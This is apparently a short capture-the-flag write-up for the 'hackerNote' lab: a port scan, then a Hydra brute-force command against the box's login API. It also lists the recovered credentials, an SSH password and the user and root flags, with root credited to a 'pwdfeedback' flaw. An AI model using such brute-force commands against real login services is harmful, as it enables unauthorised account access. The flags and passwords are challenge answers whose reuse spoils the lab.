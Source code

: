 # hackerNote 

> VOiD | Friday 29 October 2021 07:01:49 PM IST

My IP : 10.8.253.221
Target IP : 10.10.57.88

Open 10.10.57.88:22
Open 10.10.57.88:80
Open 10.10.57.88:8080




## PORT 80[http]
http://10.10.57.88/
```bash

```

## Bruteforcing
```bash
Attack the API

The HTTP POST request that we captured earlier tells us enough about the API that we can use Hydra to attack it.
The API is actually designed to either accept Form data, or JSON data. The frontend sends JSON data as a POST request, so we will use this. Hydra allows attacking HTTP POST requests, with the HTTP-POST module. To use this, we need:

    Request Body - JSON

    {"username":"admin","password":"admin"}

    Request Path -

    /api/user/login

    Error message for incorrect logins -

    "Invalid Username Or Password"

The command for this is (replace the parts with angle brackets, you will need to escape special characters):

hydra -l <username> -P <wordlist> 192.168.2.62 http-post-form <path>:<body>:<fail_message>

hydra -l james -P passes 10.10.57.88 http-post-form "/api/user/login:username=^USER^&password=^PASS^:Invalid Username Or Password"

[80][http-post-form] host: 10.10.57.88   login: james   password: blue7
```

```bash
james:blue7

My SSH details

So that I don't forget, my SSH password is dak4ddb37b

james@hackernote:~$ cat user.txt 
thm{56911bd7ba1371a3221478aa5c094d68}

pwdfeedback vuln

root@hackernote:/root# cat root.txt 
thm{af55ada6c2445446eb0606b5a2d3a4d2}

```